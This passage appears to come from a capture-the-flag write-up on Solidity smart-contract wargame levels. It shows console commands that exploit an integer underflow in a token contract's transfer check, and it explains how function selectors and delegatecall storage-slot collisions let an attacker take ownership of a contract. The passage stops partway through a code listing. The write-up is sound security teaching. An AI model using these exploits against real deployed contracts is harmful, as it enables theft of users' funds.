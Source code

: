 ```
require(balances[msg.sender] - _value >= 0);
```

If we call `transfer(address _to, uint _value)` such that `_value > balances[msg.sender]` then we cause an
underflow and bypass the `require`. Also `balances[msg.sender] -= _value` will set our balance to a 
_very high_ amount.

This exploit is simple enough to do in the console.
```
>> await contract.transfer('0x0000000000000000000000000000000000000000', '21')
>> (await contract.balanceOf(player)).toString()
'115792089237316195423570985008687907853269984665640564039457584007913129639935'
```

Now that's a big balance...

And that clears the level!

# Delegation
To understand this exploit we must understand _function signatures_ and _delegate calls_.
## Function signatures
As per the Solidity docs [2]:

> The first four bytes of the call data for a function call specifies the function to be called.
> It is the first (left, high-order in big-endian) four bytes of the Keccak-256 hash of the
> signature of the function. The signature is defined as the canonical expression of the basic
> prototype without data location specifier, i.e. the function name with the parenthesised list
> of parameter types. Parameter types are split by a single comma - no spaces are used.

So what's the function signature of `function pwn() public`? It's `abi.encodeWithSignature("pwn()")`,
i.e. the bytes `0xdd365b8b`.

## Delegate calls
When a contract is delegate called and manipulates its storage, it's actually _manipulating the storage
of the caller_. When Delegation uses `delegatecall` to call `pwn()` the line:

```
owner = msg.sender
```

is updating `owner` in Delegation, not Delegate. And don't get confused about the names
of the variables. It's not because they share the same name that it gets updated. It's
the _position_ that matters. The `owner` variable in Delegation is in the first storage
slot, and in Delegate it's **also** in the first storage slot, and that's why it gets
overwritten. To drive this point home we could change the name of the `owner` variable in
the `Delegation` contract and it would behave _the exact same way_:

```
contract Delegation {

  address public contractOwner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    contractOwner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
```